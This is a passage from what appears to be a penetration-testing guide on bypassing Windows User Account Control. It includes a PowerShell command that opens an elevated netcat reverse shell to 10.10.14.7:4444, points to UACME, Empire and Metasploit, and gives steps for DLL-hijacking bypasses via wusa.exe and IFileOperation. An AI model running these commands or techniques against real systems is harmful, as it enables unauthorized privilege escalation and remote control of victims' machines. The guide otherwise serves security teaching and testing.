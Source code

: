 #### UAC disabled

If UAC is already disabled \(**`ConsentPromptBehaviorAdmin`**is **`0`**\) you can **execute a reverse shell with admin privileges** \(high integrity level\) using something like:

```bash
#Put your reverse shell instead of "calc.exe"
Start-Process powershell -Verb runAs "calc.exe"
Start-Process powershell -Verb runAs "C:\Windows\Temp\nc.exe -e powershell 10.10.14.7 4444"
```

#### UAC bypass exploits

You could also use some tools to **bypass UAC like** [**UACME** ](https://github.com/hfiref0x/UACME)which is a **compilation** of several UAC bypass exploits. Note that you will need to **compile UACME using visual studio or msbuild**. The compilation will create several executables \(like_Source\Akagi\outout\x64\Debug\Akagi.exe_\) , you will need to know **which one you need.**  
You should **be careful** because some bypasses will **prompt some other programs** that will **alert** the **user** that something is happening.

**Empire** and **Metasploit** also have several modules to **bypass** the **UAC**.

#### More UAC bypass

**All** the techniques used here to bypass AUC **require** a **full interactive shell** with the victim \(a common nc.exe shell is not enough\).

You can get using a **meterpreter** session. Migrate to a **process** that has the **Session** value equals to **1**:

![](../.gitbook/assets/image%20%2849%29.png)

\(_explorer.exe_ should works\)

### Your own bypass - Basic UAC bypass methodology

If you take a look to **UACME** you will note that **most UAC bypasses abuse a Dll Hijacking vulnerabilit**y \(mainly writing the malicious dll on _C:\Windows\System32_\). [Read this to learn how to find a Dll Hijacking vulnerability](windows-local-privilege-escalation/dll-hijacking.md).

1. Find a binary that will **autoelevate** \(check that when it is executed it runs in a high integrity level\).
2. With procmon find "**NAME NOT FOUND**" events that can be vulnerable to **DLL Hijacking**.
3. You probably will need to **write** the DLL inside some **protected paths** \(like C:\Windows\System32\) were you don't have writing permissions. You can bypass this using:
   1. **wusa.exe**: Windows 7,8 and 8.1. It allows to extract the content of a CAB file inside protected paths \(because this tool is executed from a high integrity level\).
   2. **IFileOperation**: Windows 10.
4. Prepare a **script** to copy your DLL inside the protected path and execute the vulnerable and autoelevated binary.

#### Another UAC bypass technique

Consists on watching if an **autoElevated binary** tries to **read** from the **registry** the **name/path** of a **binary** or **command** to be **executed** \(this is more interesting if the binary searches this information inside the **HKCU**\).
